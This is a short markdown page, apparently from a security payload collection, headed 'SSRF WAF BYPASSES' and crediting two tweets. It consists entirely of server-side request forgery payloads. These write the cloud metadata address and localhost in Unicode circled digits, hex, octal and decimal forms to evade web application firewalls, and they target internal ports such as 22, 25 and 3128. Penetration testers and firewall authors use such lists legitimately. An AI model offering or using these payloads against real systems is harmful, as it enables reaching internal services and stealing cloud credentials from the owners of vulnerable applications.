 SSRF WAF BYPASSES [tweet](https://twitter.com/aisecureme/status/1238061828229353473) By [AISECUREME](https://twitter.com/aisecureme)

![SSRF](Images/ssrf.png)
Payloads
```
http://⑯⑨。②⑤④。⑯⑨｡②⑤④/
http://⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ｡⓪ⓧⓐ⑨｡⓪ⓧⓕⓔ:80/
http://⓪ⓧⓐ⑨ⓕⓔⓐ⑨ⓕⓔ:80/
http://②⑧⑤②⓪③⑨①⑥⑥:80/
http://④②⑤｡⑤①⓪｡④②⑤｡⑤①⓪:80/
http://⓪②⑤①。⓪③⑦⑥。⓪②⑤①。⓪③⑦⑥
```

[tweet](https://twitter.com/aisecureme/status/1238853314193682432) By [AISECUREME](https://twitter.com/aisecureme)
```http://[::]:80/
http://[::]:25/
http://[::]:22/
http://[::]:3128/
http://0000:80/::1/
http://0000:25/::1/
http://0000:22/::1/
http://0000:3128/::1/
http://127.0.1.3/
http://127.0.0.0/
http://0177.0.0.1/
http://2130706433/
http://3232235521/
http://3232235777/
```
